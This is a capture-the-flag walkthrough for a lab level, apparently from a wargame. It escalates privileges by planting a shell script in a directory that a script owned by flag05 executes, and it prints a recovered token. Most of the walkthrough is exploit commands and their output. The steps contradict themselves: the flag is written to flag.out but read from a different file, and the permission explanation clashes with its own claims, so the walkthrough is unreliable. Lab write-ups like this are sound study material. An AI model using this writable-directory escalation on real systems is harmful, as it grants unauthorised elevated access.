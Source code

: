 ### Solution

1. **Locate files owned by `flag05`:**

	```bash
	find / -user flag05 2>/dev/null
	```

	You’ll see:

	```
	/usr/sbin/openarenaserver
	/rofs/usr/sbin/openarenaserver
	```

2. **Inspect the main file:**

	```bash
	ls -la /usr/sbin/openarenaserver
	```

	Output:

	```
	-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
	```

	This file:

	* Is **executable only by `flag05` and members of group `flag05`**
	* But since you're `level05`, you have permission to run it.

3. **Read the script contents:**

	```bash
	cat /usr/sbin/openarenaserver
	```

	```bash
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
	done
	```

	This means:

	* The script runs **any file in `/opt/openarenaserver/`** using `bash -x`
	* Then it deletes it
	* It runs as `flag05`, so anything executed will inherit `flag05`'s privileges

4. **Exploit: Inject a script to get the flag**

	Create a shell script in `/opt/openarenaserver/`:

	```bash
	echo '/bin/getflag > /home/user/level05/flag.out' > /opt/openarenaserver/getflag05.sh
	chmod +x /opt/openarenaserver/getflag05.sh
	```

	Then run the vulnerable binary:

	```bash
	/usr/sbin/openarenaserver
	```

	It will:

	* Execute your script as `flag05`
	* Delete the script
	* And write the flag to `flag.out`

5. **Read the flag:**

	```bash
	cat /home/user/level05/flag05
	```

	Output:

	```
	Check flag.Here is your token : viioq2mai7ae7pohb9cu6ah8
	```

	You’ve successfully executed `getflag` with `flag05`’s privileges.
